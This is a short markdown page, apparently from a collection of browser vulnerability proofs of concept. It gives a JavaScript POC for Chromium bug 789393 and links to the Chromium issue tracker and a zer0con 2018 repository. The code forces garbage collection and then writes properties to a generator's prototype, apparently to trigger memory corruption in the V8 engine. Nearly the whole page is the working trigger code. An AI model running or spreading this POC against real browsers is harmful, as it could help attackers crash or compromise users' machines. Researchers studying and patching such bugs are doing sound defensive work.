 # CR 789393


## POC
```javascript
function gc() {
    for (let i = 0; i < 20; i++)
        new ArrayBuffer(0x1000000);
}

function trigger() {
    function* generator() {
    }

    for (let i = 0; i < 1022; i++) {
        generator.prototype['b' + i];
        generator.prototype['b' + i] = 0x1234;
    }

    gc();

    for (let i = 0; i < 1022; i++) {
        generator.prototype['b' + i] = 0x1234;
    }
}

trigger();
```

## Reference
https://bugs.chromium.org/p/chromium/issues/detail?id=789393
https://github.com/theori-io/zer0con2018_bpak
